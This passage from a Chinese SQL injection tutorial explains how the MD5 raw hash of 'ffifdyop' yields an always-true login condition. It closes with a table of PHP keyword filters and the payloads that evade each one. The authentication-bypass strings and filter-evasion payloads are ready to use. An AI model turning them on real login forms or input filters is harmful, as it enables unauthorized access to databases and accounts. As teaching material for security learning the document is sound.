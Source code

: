 这不是普通的二进制字符串，而是 'or’6\xc9]\x99\xe9!r,\xf9\xedb\x1c 这种，这样的话就会和前面的形成闭合，构成万能密码。

SELECT * FROM users WHERE password = ‘‘or’6…’
这就是永真的了，这就是一个万能密码了相当于 1’ or 1=1# 或 1’ or 1#。

但是我们思考一下为什么 6\xc9]\x99\xe9!r,\xf9\xedb\x1c 的布尔值是true呢？

在mysql里面，在用作布尔型判断时，以1开头的字符串会被当做整型数（这类似于PHP的弱类型）。要注意的是这种情况是必须要有单引号括起来的，比如 password=‘xxx’ or ‘1xxxxxxxxx’，那么就相当于password=‘xxx’ or 1 ，也就相当于 password=‘xxx’ or true，所以返回值就是true。这里不只是1开头，只要是数字开头都是可以的。当然如果只有数字的话，就不需要单引号，比如 password=‘xxx’ or 1，那么返回值也是 true。（xxx指代任意字符）

接下来就是找到这样子的字符串，这里给出两个吧。

```bash
ffifdyop：
content: ffifdyop
hex: 276f722736c95d99e921722cf9ed621c
raw: 'or'6\xc9]\x99\xe9!r,\xf9\xedb\x1c
string: 'or'6]!r,b
129581926211651571912466741651878684928：
123456
129581926211651571912466741651878684928：
content: 129581926211651571912466741651878684928
hex: 06da5430449f8f6f23dfc1276f722738
raw: \x06\xdaT0D\x9f\x8fo#\xdf\xc1'or'8
string: T0Do#'or'8
```

## 附录 PHP中一些常见的过滤方法及绕过方式

```bash
过滤关键字   and or
php代码   preg_match('/(and|or)/i',$id)
会过滤的攻击代码    1 or 1=1 1 and 1=1
绕过方式    1 || 1=1 1 && 1=1

过滤关键字   and or union
php代码   preg_match('/(and|or|union)/i',$id)
会过滤的攻击代码    union select user,password from users
绕过方式    1 && (select user from users where userid=1)='admin'

过滤关键字   and or union where
php代码   preg_match('/(and|or|union|where)/i',$id)
会过滤的攻击代码    1 && (select user from users where user_id = 1) = 'admin'
绕过方式    1 && (select user from users limit 1) = 'admin'

过滤关键字   and or union where
php代码   preg_match('/(and|or|union|where)/i',$id)
会过滤的攻击代码    1 && (select user from users where user_id = 1) = 'admin'
绕过方式    1 && (select user from users limit 1) = 'admin'

过滤关键字   and, or, union, where, limit
php代码   preg_match('/(and|or|union|where|limit)/i', $id)
会过滤的攻击代码    1 && (select user from users limit 1) = 'admin'
绕过方式    1 && (select user from users group by user_id having user_id = 1) = 'admin'#user_id聚合中user_id为1的user为admin

过滤关键字   and, or, union, where, limit, group by
php代码   preg_match('/(and|or|union|where|limit|group by)/i', $id)
会过滤的攻击代码    1 && (select user from users group by user_id having user_id = 1) = 'admin'
绕过方式    1 && (select substr(group_concat(user_id),1,1) user from users ) = 1

过滤关键字   and, or, union, where, limit, group by, select
php代码   preg_match('/(and|or|union|where|limit|group by|select)/i', $id)
会过滤的攻击代码    1 && (select substr(gruop_concat(user_id),1,1) user from users) = 1
绕过方式    1 && substr(user,1,1) = 'a'
```
